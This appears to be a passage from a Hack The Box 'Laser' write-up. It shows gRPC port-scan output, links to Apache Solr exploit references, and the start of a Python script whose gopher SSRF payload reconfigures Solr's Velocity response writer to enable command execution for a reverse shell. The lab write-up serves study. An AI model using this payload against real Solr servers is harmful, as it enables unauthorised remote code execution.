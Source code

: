 {% hint style="info" %}
I did find a good example of how to do a multi-threaded port scanner at [https://github.com/gh0x0st/python3\_multithreading](https://github.com/gh0x0st/python3_multithreading).  This person's code is also very clean and well structured so thanks to them for that in addition to the great examples!
{% endhint %}

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$ python3 grpc_scan.py
Port 22 open!
Exception calling application: (1, 'Received HTTP/0.9 when not allowed\n')

Port 7983 open!
Exception calling application: (52, 'Empty reply from server')

Port 8983 open!
Connection received on port: 8983 feed: "Pushing feeds"

Port 9000 open!
Exception calling application: (1, 'Received HTTP/0.9 when not allowed\n')

Port 9100 open!
Exception calling application: (1, 'Received HTTP/0.9 when not allowed\n')
```

When I got back home I found that there were five ports open, and I noticed that port `8983` responded with the message of `feed: Pushing feeds` that was expected from the PDF.

### Solr exploitation

A search for port 8983 exploit led me to 

* [https://www.exploit-db.com/exploits/47572](https://www.exploit-db.com/exploits/47572)
* [https://github.com/veracode-research/solr-injection](https://github.com/veracode-research/solr-injection)
* [https://www.tenable.com/blog/cve-2019-17558-apache-solr-vulnerable-to-remote-code-execution-zero-day-vulnerability](https://www.tenable.com/blog/cve-2019-17558-apache-solr-vulnerable-to-remote-code-execution-zero-day-vulnerability)
* [https://github.com/jas502n/solr\_rce](https://github.com/jas502n/solr_rce)

Solr is an open source application from Apache which provides searching and indexing capabilities for large amounts of data.  Using the code from the exploit and my client from earlier I crafted a python script that would connect to the server, change the configuration to enable code execute, then allow for execution of arbitrary commands specified as arguments to the script.  

```python
import laser_pb2
import laser_pb2_grpc
import grpc
import base64
import pickle
import os
import sys
from func_timeout import func_set_timeout, FunctionTimedOut
from urllib.parse import quote

#this data set will configure the system to allow command execution
data1 = "gopher://localhost:8983/_POST /solr/staging/config HTTP/1.1%0D%0AHost:127.0.0.1:8983%0D%0AContent-Type: application/json%0D%0AContent-Length:218%0D%0A%0D%0A{'update-queryresponsewriter': {'startup': 'lazy', 'name':'velocity', 'class': 'solr.VelocityResponseWriter', 'template.base.dir': '','solr.resource.loader.enabled': 'true', 'params.resource.loader.enabled':'true'}"

#need to use 'quote' since the argument is a string inside quotes with spaces; otherwise will be parsed as separate arguments
#this is the command injection I will use on the system to get a reverse shell
cmd = quote(sys.argv[1])
```